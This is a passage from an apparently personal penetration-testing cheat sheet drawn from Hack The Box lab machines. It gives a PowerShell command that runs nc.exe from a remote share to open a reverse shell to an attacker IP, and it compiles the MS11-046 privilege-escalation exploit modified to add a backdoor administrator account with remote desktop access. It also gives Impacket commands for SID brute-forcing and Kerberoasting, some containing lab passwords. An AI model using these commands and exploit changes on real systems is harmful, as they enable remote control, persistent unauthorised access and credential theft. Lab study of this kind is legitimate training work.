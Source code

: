 Powershell run as different user and get the reverse shell

```
Invoke-Command -ScriptBlock {\\10.10.14.38\share\nc.exe -e cmd.exe 10.10.14.38 4444} -Credential WORKGROUP\administrator -computer localhost
```

### Outdated Windows OS

Microsoft Windows \[Version 6.1.7601] (i.e. Win 7 SP1)

[https://www.exploit-db.com/exploits/40564/](https://www.exploit-db.com/exploits/40564/) (MS11-046)

```
i686-w64-mingw32-gcc 40564.c -lws2_32 -o 40564.exe 
```

![](broken-reference)

Original code

| <p>    // spawn shell (with elevated privileges)</p><p>    printf("         [*] Spawning shell\n");</p><p>    // spawn SYSTEM shell within the current shell (remote shell friendly)</p><p>    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");</p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

Modified code to add admin user.

| <p>    // create admin account (with elevated privileges)</p><p>    printf("         [*] Creating Admin Account (offsec/password)\n");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net user offsec password /add");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net localgroup administrators offsec /add");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net localgroup \"remote desktop users\" offsec /add");</p> |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## Impacket

Impacket contains several tools for remote service execution, Kerberos manipulation, Windows credential dumping, packet sniffing.

* **Remote code Execution :** atexec.py, dcomexec.py, psexec.py, smbexec.py and wmiexec.py
* **SMB/MSRPC :** getArch.py, ifmap.py, lookupsid.py, samrdump.py, services.py, netview.py, smbclient.py, opdump.py, rpcdump.py and reg.py
* **Kerberos:** GetST.py, GetPac.py, GetUserSPNs.py, GetNPUsers.py, ticketer.py and raiseChild.py
* **Windows Secret:** mimikatz.py
* **Server Tools/MiTM Attacks:** karmaSMB.py and smbserver.py
* **WMI:** wmipersist.py
* **Known Vulnerabilities:** sambaPipe.py and sambaPipe.py
* **MSSQL / TDS:** mssqlclient.py
* **File Formats:** ntfs-read.py and registry-read.py.
* **Others:** mqtt\_check.py, rdp\_check.py, sniffer.py, ping.py, and ping6.py

### lookupsid.py

This script allows you to bruteforce the Windows SID through \[MS-LSAT] MSRPC.

```
/opt/impacket/examples/lookupsid.py $user:stealth1agent@heist.htb
```

### GetUserSPNs.py

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```
